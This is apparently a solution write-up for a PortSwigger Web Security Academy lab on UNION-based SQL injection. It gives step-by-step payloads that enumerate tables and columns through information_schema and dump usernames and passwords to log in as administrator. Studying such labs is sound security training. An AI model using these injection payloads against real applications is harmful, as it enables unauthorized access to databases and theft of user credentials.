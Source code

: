 [Source](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables.
The application has a login function, and the database contains a table that stores usernames and passwords. We need to determine the name of this table and the columns it contains, and then extract data from the table to get the username and password of all users.

Log in as the admin user to complete the lab.
## Solution
Go to the site

![image](images/20241202191207.png)

Select any category, intercept the request in `Burp Suite` and send it to `Repeater`

![image](images/20241202191341.png)

Find out how many columns and which column is displayed on the page
```SQL
'+UNION+SELECT+NULL,NULL--
```
Only 2 columns and they are both displayed
```SQL
'+UNION+SELECT+'1','2'--
```

![image](images/20241202191627.png)

Now we will display all the names tables
```SQL
'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
```

![image](images/20241202192735.png)

Next, we will output what columns are in the table `users_pbivkd`, which we found in the previous step
```SQL
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_pbivkd'--
```

![image](images/20241202193930.png)

We found the columns `username_lfsygz` and `password_tqbtwo`. Now we will output their contents one by one.
```SQL
'+UNION+SELECT+username_lfsygz,NULL+FROM+users_pbivkd--
```

![image](images/20241202194117.png)

Found `administrator`. He is the third in order. Now let's find his password
```SQL
'+UNION+SELECT+password_tqbtwo,NULL+FROM+users_pbivkd--
```

![image](images/20241202194216.png)

Or we can simply output everything at once
```SQL
'+UNION+SELECT+username_lfsygz,password_tqbtwo+FROM+users_pbivkd--
```
All that remains is to log in as administrator and that's it.